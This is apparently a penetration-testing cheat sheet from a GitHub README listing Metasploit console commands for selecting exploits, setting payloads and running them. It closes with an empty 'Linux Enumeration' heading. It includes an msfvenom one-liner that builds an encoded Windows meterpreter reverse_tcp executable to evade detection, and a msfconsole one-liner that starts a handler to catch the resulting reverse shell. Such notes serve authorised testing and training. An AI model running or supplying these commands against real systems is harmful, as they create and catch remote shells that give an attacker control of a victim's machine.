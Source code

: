 # Exploitations

## Metasploit

To show all exploits that for a vulnerability
```
grep <vulnerability> show exploits
```

To select an exploit to use
```
use <exploit>
```

To see the current settings for a selected exploit
```
show options
```

To see compatible payloads for a selected exploit
```
show payloads
```

To set the payload for a selected exploit
```
set payload <payload>
```

To set setting for a selected exploit 
```
set <option> <value>
```

To run the exploit
```
exploit
```

One liner to create/generate a payload for windows
```
msfvenom --arch x86 --platform windows --payload windows/meterpreter/reverse_tcp LHOST=<listening_host> LPORT=<listening_port> --bad-chars “\x00” --encoder x86/shikata_ga_nai --iterations 10 --format exe --out /path/
```

One liner start meterpreter
```
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST <listening_host>;set LPORT <listening_port>;run;"
```

</br>

# Linux Enumeration - Tools
